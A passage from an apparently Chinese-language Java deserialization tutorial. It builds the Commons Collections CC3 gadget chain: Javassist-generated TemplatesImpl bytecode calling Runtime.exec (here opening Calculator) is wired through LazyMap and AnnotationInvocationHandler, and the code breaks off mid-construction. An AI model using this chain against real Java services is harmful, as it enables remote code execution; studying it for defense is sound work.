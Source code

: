 ```java

    }

    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null) {
                field = getField(clazz.getSuperclass(), fieldName);
            }
        }
        return field;
    }
}
```



## Gadget chain

上述的 RCE demo 结合 CC1 的 LazyMap 利用链可以构造出 CC3

**CC3 payload**

```java
public class CC3 {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("TestDemo");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"/Applications/Calculator.app/Contents/MacOS/Calculator\");";
        cc.makeClassInitializer().insertBefore(cmd);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        byte[] classBytes = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", targetByteCodes);
        setFieldValue(templates, "_name", "TestDemo");
        setFieldValue(templates, "_class", null);
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        Transformer[] realPoc = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})};
        ChainedTransformer fakeChain = new ChainedTransformer(new Transformer[]{ new ConstantTransformer("random")});

        Map innerMap = new HashMap();
        Class clz = Class.forName("org.apache.commons.collections.map.LazyMap");
        Constructor construct = clz.getDeclaredConstructor(Map.class, Transformer.class);
        construct.setAccessible(true);
        LazyMap mapDemo = (LazyMap) construct.newInstance(innerMap, fakeChain);
        Constructor handler_construct = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
        handler_construct.setAccessible(true);
```